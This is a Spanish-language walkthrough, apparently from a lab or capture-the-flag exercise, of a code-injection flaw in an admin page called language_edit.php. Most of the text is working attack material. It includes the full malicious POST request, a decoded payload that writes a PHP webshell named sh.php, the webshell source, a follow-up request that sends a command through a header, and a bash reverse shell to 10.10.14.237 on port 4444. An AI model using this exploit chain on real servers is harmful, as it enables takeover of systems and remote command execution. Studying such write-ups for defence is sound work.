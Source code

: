 La vulnerabilidad surge cuando `/admin/language_edit.php` no sanitiza el contenido del parámetro `records` en una solicitud POST. A continuación podemos ver una solicitud HTTP maliciosa

~~~ http
POST /admin/language_edit.php HTTP/1.1
Host: localhost:8081
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Cookie: ISPCSESS=f5lhhlgmdq9nl7e57c2c2djmn5
Content-Length: 357
Content-Type: application/x-www-form-urlencoded


lang=en&module=help&lang_file=osyyeuxs.lng&_csrf_id=language_edit_399d4a0322ba2ac1217d45ba&_csrf_key=20034670f4e09f84940295d767d88003dd543b45&records%5B%5C%5D=%27%5D%3Bfile_put_contents%28%27sh.php%27%2Cbase64_decode%28%27PD9waHAgcHJpbnQoJ19fX18nKTsgcGFzc3RocnUoYmFzZTY0X2RlY29kZSgkX1NFUlZFUlsnSFRUUF9DJ10pKTsgcHJpbnQoJ19fX18nKTsgPz4%3D%27%29%29%3Bdie%3B%23
~~~

En este caso enviamos un payload a través del parámetro `records`, donde la cadena decodificada se vería se la siguiente forma

~~~ bash
'];file_put_contents('sh.php',base64_decode('PD9waHAgcHJpbnQoJ19fX18nKTsgcGFzc3RocnUoYmFzZTY0X2RlY29kZSgkX1NFUlZFUlsnSFRUUF9DJ10pKTsgcHJpbnQoJ19fX18nKTsgPz4='));die;#
~~~

Esto crea un archivo `php` malicioso con el siguiente contenido

~~~ php
<?php print('____'); passthru(base64_decode($_SERVER['HTTP_C'])); print('____'); ?>
~~~

Esto recibe una cabecera `C` que es enviada en `base64` y ejecuta su contenido, actuando como una `webshell`. 

La siguiente solicitud representa un envío de un comando a este archivo `sh.php`

~~~ http
GET /admin/sh.php HTTP/1.1
Host: localhost:8081
User-Agent: python-requests/2.32.3
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
C: YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMzcvNDQ0NCAwPiYxJw==
Cookie: ISPCSESS=f5lhhlgmdq9nl7e57c2c2djmn5
~~~

En la cabecera `C` estaríamos enviando nuestro comando que decodificado desde `base64` podría verse de la siguiente manera para ejecutar una reverse shell

~~~ bash
bash -c 'bash -i >& /dev/tcp/10.10.14.237/4444 0>&1'
~~~
